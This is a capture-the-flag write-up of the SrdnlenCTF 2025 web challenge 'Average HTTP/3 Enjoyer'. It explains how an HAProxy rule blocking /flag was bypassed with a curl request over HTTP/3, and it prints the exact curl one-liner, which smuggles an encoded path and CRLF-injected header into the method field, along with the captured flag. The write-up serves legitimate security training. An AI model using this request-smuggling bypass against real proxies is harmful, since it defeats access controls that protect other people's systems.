 
# 🌐 Average HTTP/3 Enjoyer


![Challenge Presentation](/images/SrdnlenCTF-2025/AverageHTTP3/challenge_presentation.png "Challenge Presentation")

## 📊 Challenge Overview
>
>| Category | Details | Additional Info |
>|----------|---------|-----------------|
>| 🏆 Event | SrdlenCTF - 2025 | [Event Link](https://ctf.srdnlen.it/challenges#challenge-21) |
>| 🔰 Category | Web | 🌐 |
>| 💎 Points | 405 | Out of 500 total |
>| ⭐ Difficulty | 🟡 Medium | Personal Rating: 3/10 |
>| 👤 Author | pysu | [Profile]() |
>| 🎮 Solves (At the time of flag submission)| 23 | XX% solve rate |
>| 📅 Date | 19-01-2025 | SrdlenCTF - 2025 Day X |
>| 🦾 Solved By | aquila2 | Team: Team Aetruria |

## 📝 Challenge Information
>HTTP/3 is just the best version of HTTP, wait a few years, until setting up an HTTP/3 server will not be a pain, and you’ll see. I hid a secret on /flag, you can only get it if you become a real HTTP/3 enjoyer.  NOTE: This challenge uses only HTTP/3, browsers are a bit hesitant in using it by default, so you’ll have to use explicit arguments to do so.  In chrome you can do the following:  
>chrome --enable-quic --origin-to-force-quic-on=enjoyer.challs.ctf.srdnlen.it

## 🎯 Challenge Files & Infrastructure

### Provided Files
>Files:
>- [:(far fa-file-archive fa-fw): Attached Files](https://drive.google.com/file/d/1KcEalyyC9hSqsCTTvd0OpFOcBRPjZt2v/view?usp=drive_link)

# 🔍 Initial Analysis

## First Steps
> After an initial analysis and some research, I tried making a request with `curl` using the `--http3` option:
>
> ```bash
> curl --http3 https://enjoyer.challs.ctf.srdnlen.it
> ```
> Since the site was not reachable without `HTTP/3` support, I proceeded to access the `/flag` route using `curl`:
> 
> ```bash
> curl --http3 https://enjoyer.challs.ctf.srdnlen.it/flag
> ```
> Receiving a response with a `403 Unauthorized` error:
> 
> ![Forbidden](/images/SrdnlenCTF-2025/AverageHTTP3/forbidden.png "Forbidden")
> 
> Then I noticed that this was being blocked through the server's `proxy rules`:
> 
> ```
>  acl restricted_flag path_sub,url_dec -m sub -i i /flag
>  http-request deny if restricted_flag
> ```
> 
> Through an `HAProxy` proxy. So I started doing some research online to find an effective `bypass` for this proxy rule.


## 🔬 Vulnerability Analysis
### Potential Vulnerabilities
>- [x] 403 Bypass
>- [x] Proxy Rule Bypass

# 🎯 Solution Path

## Exploitation Steps
### Initial setup
> After searching online, as mentioned earlier, I found the page on [StackOvreflow](https://stackoverflow.com/questions/63689649/make-an-http-request-without-a-forward-slash/76882066#76882066), from which I figured out how to craft the exploit. The trick was to `URL-encode` the slash (`/`) in a special syntax, but I also tried using the `--path-as-is` option in curl, but it didn't work. After that, I needed to craft any `header` to bypass the rule.
>
### Exploitation
> With the following exploit, I was able to obtain the flag:
>
> ```bash
>   echo "\n"; curl --insecure -X "$(echo -en 'GET %2fflag 1/\r\nX-Ignore-Injection:')" https://enjoyer.challs.ctf.srdnlen.it --http3
>```
>
### Flag capture
>  
>   ![Manual Flag](/images/SrdnlenCTF-2025/AverageHTTP3/manual_flag.png "Manual Flag")

# 🛠️ Exploitation Process
## Approach
> I wasn't able to write the automatic exploit in Python due to issues with `HTTP/3`. I also tried using `httpx`, but it didn't work. I even attempted using `bash script`, but without success.
> 
> - [:(far fa-file-archive fa-fw): None]()

# 🚩 Flag Capture
>{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
srdnlen{you_found_the_:path_for_becoming_a_real_http3_enjoyer}
{{< /typeit >}}
>{{< /admonition >}}
>
## Proof of Execution
> ![Automated Flag](/images/SrdnlenCTF-2025/AverageHTTP3/manual_flag.png "Automated Flag")
>*Screenshot of successful exploitation*

# 🔧 Tools Used
>| Tool | Purpose |
>|------|---------|
>| Curl | Http3 request |

# 💡 Key Learnings
## New Knowledge
>
> I learned about HTTP Request Smuggling and Header Smuggling from this challenge, but in the end, it was a bypass of the proxy rules through encoding with the addition of a crafted header field.
> 
## Skills Improved
>- [ ] Binary Exploitation
>- [ ] Reverse Engineering
>- [x] Web Exploitation
>- [ ] Cryptography
>- [ ] Forensics
>- [ ] OSINT
>- [ ] Miscellaneous

# 📚 References & Resources
## Learning Resources
>- https://hacktricks.boitatech.com.br/pentesting/pentesting-web/403-and-401-bypasses
>- https://stackoverflow.com/questions/63689649/make-an-http-request-without-a-forward-slash/76882066#76882066
---
# 📊 Final Statistics
| Metric | Value | Notes |
|--------|--------|-------|
| Time to Solve | 00:30 | From start to flag |
| Global Ranking (At the time of flag submission)| 22/1572 | Challenge ranking |
| Points Earned | 405 | Team contribution |

*Created: 19-01-2025 • Last Modified: 19-01-2025*
*Author: mH4ck3r0n3 • Team: Team Aetruria*
